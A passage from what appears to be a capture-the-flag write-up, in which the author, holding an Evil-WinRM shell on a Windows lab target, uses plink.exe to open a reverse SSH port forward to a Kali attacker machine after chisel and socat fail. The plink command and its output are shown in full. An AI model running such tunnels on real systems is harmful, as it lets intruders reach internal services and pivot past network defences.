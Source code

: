 I tried <mark style="background: #FF5582A6;">chisel</mark> , <mark style="background: #FF5582A6;">socat</mark> but failed to port forward this port so I tried <mark style="background: #FF5582A6;">plink</mark> Tool that can be accessed from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) .

First time I was getting this error while executing this ⏭️

![Image](Pasted%20image%2020240316155116.png)
_plink Tool_

 I tried to reset the ssh services of the attacker machine and reran that command and I got it ->

```bash
┌──(kali㉿kali)-[/opt/Tools]
└─$ sudo systemctl enable ssh     
[sudo] password for kali: 
Synchronizing state of ssh.service with SysV service script with /usr/lib/systemd/systemd-sysv-install.
Executing: /usr/lib/systemd/systemd-sysv-install enable ssh
Created symlink /etc/systemd/system/sshd.service → /usr/lib/systemd/system/ssh.service.
Created symlink /etc/systemd/system/multi-user.target.wants/ssh.service → /usr/lib/systemd/system/ssh.service.

┌──(kali㉿kali)-[/opt/Tools]
└─$ sudo systemctl start ssh 

```
{: .nolineno}
{: .nolineno}

Now again try that same command 😀

```powershell
*Evil-WinRM* PS C:\Users\MichelleWat\Desktop> echo 'y' |& .\plink.exe -ssh -N -l kali -pw kali -R 10.11.75.200:2805:127.0.0.1:2805 10.11.75.200
plink.exe : The host key is not cached for this server:
    + CategoryInfo          : NotSpecified: (The host key is...or this server::String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
  10.11.75.200 (port 22)
You have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:iV7kwXbEbGNLibdOYBJWYGOOTpyM6PIUENdHFBPxPmw
If you trust this host, enter "y" to add the key to Plink's
cache and carry on connecting.
If you want to carry on connecting just once, without adding
the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) Using username "kali".

```
{: .nolineno}
{: .nolineno}
